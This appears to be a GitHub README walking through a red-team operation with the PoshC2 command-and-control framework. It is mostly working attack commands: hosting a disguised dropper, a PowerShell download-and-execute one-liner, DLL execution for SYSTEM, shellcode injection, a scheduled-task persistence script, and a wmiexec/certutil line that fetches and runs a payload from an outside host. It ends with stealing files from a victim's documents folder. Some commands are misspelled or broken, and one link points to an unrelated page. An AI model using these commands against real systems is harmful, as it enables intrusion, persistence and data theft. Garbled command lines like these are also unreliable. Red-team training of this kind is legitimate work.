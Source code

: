 # CTE-For-Monkeys

- Running Poshc2 
	- Set up
	- tool familierization 
		- hosting payload
		- file upload 
		- host enumeration 
		- user escelation
		- persistence / scripting
		- later movement
        - file download
- living of the land ( windows )
	- file downloads 
	- file (payload) execution 
- powershell 
	- user enumeration 
	- domain enumeratoin 
	- scripting


# Running PoshC2

Create a new project:

```
posh-project -n <project-name>
```

Projects can be switched to or listed using this script:
```
[*] Usage: posh-project -n <new-project-name>
[*] Usage: posh-project -s <project-to-switch-to>
[*] Usage: posh-project -l (lists projects)
[*] Usage: posh-project -d <project-to-delete>
[*] Usage: posh-project -c (shows current project)
```
Edit the configuration for your project:
```
posh-config
```
Edit `payloadcoms` to your ip  
Also edit Bindport form 443 to 80

Launch the PoshC2 server:
```
posh-server
```

Alternatively start it as a service:
```
posh-service
```
Separately, run the ImplantHandler for interacting with implants:
```
posh -u <username>
```

For more on `Poshc2` github like [here](https://apple.stackexchange.com/questions/254380/why-am-i-getting-an-invalid-active-developer-path-when-attempting-to-use-git-a) 

# Host Payloads 

In the ImplantHandler run file upload command 
```
add-hosted-file
```

Host file opttions 
```
file location > /var/poschc2/yourprojectname/payloads/Sharp_v4_dropper_x64.exe
file uri > /en-us/readme.md
file MIME type > text/html
Base64 > n
```

View all hosted files by running
```
show-hosted-files
```

# Download Payload on Victim 

For testing lets downloading using powershell on victim machine usign a basic user
```powershell
iwr -uri http://<youripordomian>/hosteduritring -outfile C:\windows\temp\bad.exe; C:\windows\temp\bad.exe
```

Interact with implant by typeing `1` in ImplantHandler

# User Escilation

Check for running process 
```ps 
ps
```
> As a basic user you'll only be able to see anything ran under your own context. 

Lets escalte to system through execution  

Upload a the dll to the machine 
```ps
> upload-file 
> /var/poshc2/projetname/payloads/Sharp_v4_dropper_x64.dll
> location C:\windows\temp\updater.dll 
```

Execute dll using local windows binaries 
```ps
sharpps regserv32 C:\windows\temp\updater.dll
``` 
> For more on native window binaries look [here](https://lolbas-project.github.io/)

After execution you should see a system level beacon return in ImplantHandler  

Once you are system you can Enumerate for other users on the box with domain access. 
```ps
ps
```

Search for any user process being ran as a domain user, to inject into

```ps
inject-shellcode <PID> <name_of_shellcode.bin>
```

Checking your ImplantHandler you should see a new beacon running in the context of said user.

As a domain user you can now run domain level commands, you can check your groups and privliages 
``` 
sharpps net user <domain username>
```

# Persistence and Scripting 

Now to maintain our doamin user privlige lets create a .ps1 script to set persistence using registry keys  

On your attack box with the editor of your choice copy the following 
```ps
$payloadpath = "C:\windows\temp\bad.exe"
$taskname = "Test Updater"
$tskdescription = "This task updates things."
$action = New-ScheduledTaskAction -Execute $payloadpath
$days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
$trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 8am
Register-ScheduledTask -Action $action -Trigger $trigger -Taskname $taskname -Description $tskdescription
```
> Learn more about powershell `New-ScheduledTaskTrigger` [here](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtask?view=windowsserver2022-ps)

Save your pslo scropt as bad.ps1 in /home/parrot/desktop/bad.ps1

Lets run the .ps1
```
pslo /home/parrot/desktop/bad.ps1
```

You should see your scheudled task name appear for confirmation 

# Lateral Movement 

Now lets run a `sharpview` to enumerate the network to conduct lateral movement
```
sharpview 
```
> Read more on sharpview [here](https://academy.hackthebox.com/course/preview/active-directory-powerview/powerviewsharpview-overview--usage)

We can us the enumeration script to identify the next workstation to laterally move to 

```
resolveip <127.0.0.1>
```

Lets host a new payload 
```
add-hosted-file
```

Host file opttions 
```
file location > /var/poshc2/projectname/payloads/Sharp_v4_dropper_x64.exe
file uri > /verify
file MIME type > text/html
Base64 > n
```

Run wimc to get download and execution of hosted payload
```
wmiexec <127.0.0.1> <domain> <username> password=asdsa "cmd /c certutil.e xe -urlcache -split -f http://badip/verify C:\windows\downloads\bad2.exe && C:\windows\downloads\bad2.exe"
```

In ImplantHandler interact with the new payload 

In the new payload handler lets navigate to the `documents` folder 
```
cd C:\users\username\documents
```

lets see what documents we can find 
```
ls
```

Now lets download some files 
```
download-file <filename>
```

Congragulations you have ran through your first OPPLAN, check [here](poshC2_help_v8.md) for the help list for poshc2 and other commands you can run.


